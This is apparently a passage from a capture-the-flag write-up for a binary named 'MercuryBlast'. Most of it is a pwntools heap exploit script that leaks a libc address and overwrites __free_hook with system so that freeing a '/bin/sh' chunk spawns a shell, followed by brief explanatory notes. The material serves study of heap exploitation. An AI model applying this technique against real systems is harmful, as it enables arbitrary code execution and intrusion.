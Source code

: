 ```py
# using 7 here would merge with top chunk 
delete_record(6)

gdb.attach(p, s)

# previously 7th chunk first get allocated, now being an index 0 record 
add_record(0x200, b'AAAAAAAA') #0, 7
add_record(0x200, b'AAAAAAAA') #1, 5
add_record(0x200, b'AAAAAAAA') #2, 4
add_record(0x200, b'AAAAAAAA')#3, 6
add_record(0x200, b'AAAAAAAA')#4, 6
add_record(0x200, b'AAAAAAAA')#5, 6
add_record(0x200, b'AAAAAAAA')#6, 6

# previous chunks with 0x200 description size cannot get to the glibc addresses 
# therefore allocate a new chunk 
add_record(0x10, b'BBBBBBBB')#7, 6
print_record()

#edit_record(0, 0x200, payload)
p.recvuntil(b"Description: BBBBBBBB")
leak = p.recvuntil(b'\x7f')[:6].ljust(8, b'\x00')
leak = u64(leak)
#print(hex(leak))
#pwndbg> x/20x 0x7fc6b1288de0 - 0x7fc6b109c000
#0x1ecde0:	Cannot access memory at address 0x1ecde0
libc.address =  leak - 0x1ecde0 # actual libc base, verified with outputs and vmmp in pwndbg
#print(hex(libc.address))
sys_addr = libc.sym['system']
free_hook = libc.sym['__free_hook']
add_record(0x200, b'AAAAAAAA')
add_record(0x100, b'AAAAAAAA')
add_record(0x200, b'AAAAAAAA')
print(hex(libc.address))
edit_record(9, 0x200, b'A' * 0x100 + p64(0) + p64(0x21) + p64(0) + p64(0x100) + p64(free_hook))
edit_record(10, 0x8, p64(sys_addr))

edit_record(3, 0x8, b'/bin/sh\x00')
delete_record(3)


# now start arbirary write! using read()

p.interactive()
```
### process the binary
```py
binary = "./MercuryBlast"
p = process(binary)
```
### libc
```py
libc = ELF('./libc.so.6')
```
used for getting the offset of address of libc symbols from the libc base. For example,  
```py
sys_addr = libc.sym['system']
free_hook = libc.sym['__free_hook']
```
But once `libc.address` is set to the libc base address, the above would output the actual address of the symbols
### debugging 